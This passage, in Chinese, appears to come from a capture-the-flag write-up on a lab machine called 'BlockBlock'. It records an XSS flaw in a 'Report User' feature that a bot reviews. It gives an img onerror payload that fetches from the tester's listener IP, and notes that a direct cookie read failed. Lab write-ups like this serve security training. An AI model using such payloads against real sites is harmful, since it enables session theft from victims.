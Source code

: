 请求 net_version 时就开始要求 token 认证了，继续查看 80 端口页面

![image-20241125100206564.png](BlockBlock/image-20241125100206564.png)

注册账号登陆后看到一个 BOT，发现在 Report User 功能点处存在 XSS 漏洞，还是机器人的请求

![image-20241125100801475.png](BlockBlock/image-20241125100801475.png)

Payload

```JavaScript
<img src=x onerror=fetch("http://10.10.16.5/xss")>
```

![image-20241126094717680.png](BlockBlock/image-20241126094717680.png)

这里直接读取 Cookie 会失败，HTTP 服务器这边没有看到请求。
